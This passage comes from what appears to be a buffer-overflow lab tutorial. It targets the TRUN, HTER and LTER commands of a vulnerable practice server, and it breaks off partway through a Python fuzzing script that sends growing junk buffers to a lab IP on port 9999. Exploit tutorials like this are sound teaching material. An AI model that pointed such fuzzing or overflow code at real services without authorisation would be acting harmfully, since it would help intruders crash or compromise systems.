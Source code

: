 ![HTER overflow](images/BO_HTERoverflow.png)

##### LTER

![LTER overflow](images/BO_LTER_overflow.png)

#### Fuzzing

Now that we know some params are vulnerable to overflows we can start to fuzz and find out where they break. For now we will focus on TRUN.  
Fuzzing is sending over 'junk' data in increments, in this example increments of 100 bytes, to find the general point where the program breaks.

This can be done with some python code.

```python
#!/usr/bin/python

import socket,sys
from time import sleep

address = '192.168.136.130'
port    = 9999

offset  = 100

while True:
    try:
        buffer  = b""         # empty byte var
        buffer += b"A"*offset # junk times offset
        print(f'[+] Sending buffer: {str(len(buffer))} bytes')
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((address,port))
        s.recv(1024)
```